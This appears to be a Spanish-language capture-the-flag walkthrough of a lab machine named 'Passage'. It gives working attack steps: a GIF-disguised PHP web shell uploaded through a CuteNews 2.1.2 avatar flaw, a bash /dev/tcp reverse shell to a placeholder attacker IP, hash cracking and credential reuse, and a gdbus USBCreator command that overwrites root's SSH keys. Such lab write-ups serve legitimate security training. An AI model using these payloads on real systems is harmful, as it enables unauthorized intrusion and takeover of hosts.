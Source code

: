 

# PortScan
____

```
 # Nmap 7.93 scan initiated Fri Dec  1 10:05:34 2023 as: nmap -sCV -p22,80 -oN targeted 10.10.10.206
 Nmap scan report for 10.10.10.206
 Host is up (0.056s latency).
 
 PORT   STATE SERVICE VERSION
 22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
 | ssh-hostkey: 
 |   2048 17eb9e23ea23b6b1bcc64fdb98d3d4a1 (RSA)
 |   256 71645150c37f184703983e5eb81019fc (ECDSA)
 |_  256 fd562af8d060a7f1a0a147a438d6a8a1 (ED25519)
 80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
 |_http-title: Passage News
 |_http-server-header: Apache/2.4.18 (Ubuntu)
 Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
 
 Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
 # Nmap done at Fri Dec  1 10:05:43 2023 -- 1 IP address (1 host up) scanned in 8.94 seconds
```


# WebSite
____
![[Pasted image 20231201114320.png]]

Parece un sitio de noticias, así que opto por ver el código fuente, notando qué está corriendo un "**CuteNews**", que indagando un poco en internet es un gestor de noticias.
![[Pasted image 20231201114800.png]]


Pruebo ir a esa redirección, pero sin sin ir al recurso "**rss.php**", descubriendo así el panel de autenticación.

![[Pasted image 20231201114925.png]]

Logrando así ver la versión del "**CuteNews**", así que sabiendo la versión se me ocurre buscar posibilidades en internet...

Encontrándome así que esta versión es vulnerable a un **RCE** mediante la subida de un archivo malicioso **PHP** al avatar, usando los primeros **magick numbers** de un **GIF** para saltar la "**medida de seguridad**" de que se suban archivos maliciosos.

**PoC** de un script en python para hacerlo automatizado tan sólo indicando la URL [CuteNews 2.1.2 Remote Code Execution](https://packetstormsecurity.com/files/159134/CuteNews-2.1.2-Remote-Code-Execution.html)


En éste caso, estaré haciéndolo manual ya qué conozco como el script funciona & hace esta subida de archivo malicioso...

1. Creamos el archivo malicioso con extensión **.php** que subiremos como "avatar":
```bash
GIF8;

<?php system($_GET['cmd']); ?>
```


2. Nos registramos en el "**CuteNews**", para irnos a la "**opciones personales**".

![[Pasted image 20231201115631.png]]

3. Posterior a ello subimos en el avatar el archivo malicioso **php**, logrando evaditar la "medida de seguridad" para no subir código php.

4. Vamos al directorio de subidas de archivos, logrando ver el avatar que hemos subido.
![[Pasted image 20231201115917.png]]

![[Pasted image 20231201115957.png]]

Logrando así como vemos arriba llevar a cabo el **RCE** exitosamente,  así que procedo a entablarme una **Reverse Shell**.


1. Nos ponemos en escucha con **Netcat**.
```bash
nc -nlvp PORT
```

2. Nos mandamos la **Reverse Shell** desde la máquina por la URL.
```bash
bash -c 'bash -i >%26/dev/tcp/10.10.x.x/PORT 0>%261'
```

![[Pasted image 20231201120446.png]]

Ya tan sólo quedaría darle Tratamiento TTY, sino sabes como [((LEE ESTE POST))](https://4uli.github.io/tratamiento-tty/)


# Escalada de Privilegios #1 
___

Lo primero qué hago, es ver cuales son los usuarios con directorios personales.
```bash
ls -la /home/
```
![[Pasted image 20231201120824.png]]

Descubriendo qué existen dos usuarios con directorios, "**nadav**" & "**paul**", y a los cuales nisiquiera podemos entrar a sus directorios, así que empiezo buscando en el código fuente del servicio web **CuteNews**.

Descubriendo así en el directorio "/**cdata**" un subdirectorio interesante con nombre "**/users**", el cual contiene información de los usuarios en **base64**.
hallando allí un recurso llamado "lines", el cual contiene multiples cadenas en base64 aparentemente con información de todos los usuarios...
![[Pasted image 20231201121158.png]]

Al ser varias cadenas, hago una iteración rápida para desconvertir de base64 cada linea del archivo "**lines**".
```bash
cat lines | grep -v php | while read line; do echo $line | base64 -d;echo; done
```

Logrando así ver información de los usuarios en texto claro.
![[Pasted image 20231201121424.png]]

Excepto la contraseña, lo qué aparentemente está **hasheada**, en éste caso me interesaría **crackear** la qué es del usuario **Paul**, a ver sí se está reusando esa contraseña del "**CuteNews**" en el usuario válido del sistema.

copio el **hash**, y utilizo el recurso web para crackear [hashes.com](https://hashes.com/en/decrypt/hash), logrando así crackear la contraseña.
![[Pasted image 20231201121647.png]]

y pruebo a reutilizarla como "**paul**"
![[Pasted image 20231201121712.png]]

Ha funcionado, y hemos ingresado como Paul.

# Escalada de Privilegios #2 
___

Indagando en el directorio personal de "**paul**", descubrí que en el directorio **SSH** tiene como claves autorizadas la de **nadav** así que podríamos ingresar a éste usuario sin proporcionar contraseña.

![[Pasted image 20231201121842.png]]

# Escalada de Privilegios #3 
___

Siendo "**nadav**", entro a su directorio personal, descubriendo qué está un "**.viminfo**" y procedo a ver qué contiene.
![[Pasted image 20231201122046.png]]

Como vemos en el historial de **vim**  existe un **USBCreator** en la máquina.

Indago en internet en busca de posibles vulnerabilidades para escalar privilegios con ésto, encontrando así la vulnerabilidad **CVE-2015-3643**, la cual de forma resumida consiste en qué podemos **sobre-escribir** cualquier archivo existente aunque no tengamos permisos, así que se me ocurre sobre-escribir el "**authorized_keys**" de **Root** para ganar acceso mediante **SSH** sin proporcionar credenciales.

1. Creamos una copia de la clave pública de "**nadav**" en el directorio de la misma.
```bash
cp authorized_keys ~/authorized_keys
```

2. Sobre-escribimos la clave autorizada de Root, para poder acceder como "nadav" sin proporcionar credenciales.
```bash
gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /home/nadav/authorized_keys root/.ssh/authorized_keys true
```

![[Pasted image 20231201124305.png]]

Logrando así ganar acceso como Root.
